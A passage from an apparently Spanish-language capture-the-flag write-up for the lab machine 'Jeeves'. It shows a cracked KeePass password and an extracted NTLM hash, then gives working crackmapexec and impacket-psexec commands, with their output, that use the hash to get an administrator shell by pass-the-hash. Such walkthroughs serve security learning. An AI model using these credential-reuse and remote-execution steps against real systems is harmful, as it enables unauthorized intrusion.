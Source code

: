 Tenemos que la contraseña es **moonshine1**, vamos a keepass y la introducimos:

![](/imagenes/Jeeves/jeeves7.png)



Hemos entrado, si empezamos a revisar de arriba a abajo, encontramos esto:

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

Debido a la forma que tiene corresponde a un hash **NTLM**, si utilizamos el LM podriamos ser capaces de realizar un pass the hash, sin embargo, vamos a verificar con `crackmapexec` si esto es válido:

```
crackmapexec smb 10.10.10.63 -u'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00'

SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

Observamos que si es correcto, entonces podemos hacer uso de la utilidad `impacket-psexec` para hacer pass the hash:

```
impacket-psexec WORKGROUP/Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file AJsKtBPE.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service TxXq on 10.10.10.63.....
[*] Starting service TxXq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
```